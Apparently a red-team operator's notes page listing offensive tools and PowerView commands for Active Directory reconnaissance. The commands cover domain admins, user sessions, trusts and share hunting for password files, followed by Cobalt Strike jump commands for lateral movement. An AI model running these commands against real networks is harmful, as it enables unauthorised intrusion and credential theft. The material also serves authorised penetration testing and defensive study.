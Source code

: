 ```yaml
---
title: "Red Team Operator NOTES"
date: 2021-11-16
draft: false
---
```


# Tools used
- PowerView/SharpView
- PowerUp/SharpUp
- Rubeus
- Impacket
- Mimikatz
- Bloodhound
- PowerUpSQL
- Seatbelt


# Domain Recon

## PowerView / SharpView
- Get current domain: `Get-Domain`
- Get domain SID: `Get-DomainSID`


- Enumerating domain computers:
 `Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName`
 
- Get domain groups with "admin":
 `Get-DomainGroup | where Name -like "Admins" | select SamAccountName`

- Enumerate users in domain group:
`Get-DomainGroupMember -Identity "Domain Admins" | select MemberDistinguishedName`

- Find computers where a user has a session:
`Find-DomainUserLocation | Select-Object UserName, SessionFromName`

- Enumerate users logged on to a machine:
`Get-NetLoggedon -ComputerName <ComputerName>`


- Enumerating file shares:
````
#Enumerate Domain Shares
Find-DomainShare

#Enumerate Domain Shares the current user has access
Find-DomainShare -CheckShareAccess

#Enumerate "Interesting" Files on accessible shares
Find-InterestingDomainShareFile -Include *passwords*
````

- Enumerating ACLs:
````
Get-DomainObjectAcl -Identity <AccountName> -ResolveGUIDs
````

- Enumerating Domain and Forest Trusts:
```
Get-DomainTrust
Get-DomainTrust -Domain <DomainName>

#Enumerate all trusts for the current domain and then enumerates all trusts for each domain it finds
Get-DomainTrustMapping

# Enumerating Forest Trust
Get-ForestTrust
Get-ForestTrust -Forest <ForestName>
```


# Local Privilege Escalation
- PowerUp.ps1
- SharpUp.exe


# Lateral Movement
## Cobalt Strike's jump method
- Powershell Remoting:
`jump winrm <target> <listener>`
`jump winrm64 <target> <listener>`

- PsExec: Copies a service binary to ADMIN$ and executes via SCM.
Cobalt Strike's jump will automatically migrate the process into rundll32.exe to delete service binary from disk.
`jump psexec <target> <listener>`
`jump psexec64 <target> <listener>`
